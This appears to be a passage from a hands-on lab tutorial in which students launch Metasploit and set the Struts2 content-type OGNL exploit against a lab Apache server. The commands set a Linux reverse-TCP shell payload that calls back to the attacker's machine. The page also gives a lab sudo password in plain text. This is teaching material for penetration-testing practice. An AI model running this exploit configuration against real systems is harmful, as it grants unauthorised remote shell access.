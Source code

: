 

<div class="step" id="step-011"><a href="#step-011" style="font-weight:bold">Step 011</a></div>  

Enter the command `sudo msfconsole` to start Metasploit.   The sudo password is `tet123$$!`

<a href="images/module10_011.png"><img src="images/module10_011.png" style="width:100%;height:100%;"></a>  

<div class="step" id="step-012"><a href="#step-012" style="font-weight:bold">Step 012</a></div>  

Enter the following parameters for the attack. The Apache Outside NAT IP can be found in the student Excel workbook.  Use the `ifconfig` command to determine the ATTACK MACHINE IP.  You do not need to exit the msfconsole to run ifconfig use multi/http/struts2_content_type_ognl.

```
set rhost <APACHE OUTSIDE NAT IP>
set rport 8080
set targeturi /showcase.action
set payload linux/x64/shell/reverse_tcp
set lhost <ATTACK MACHINE IP>
set lport 80
```
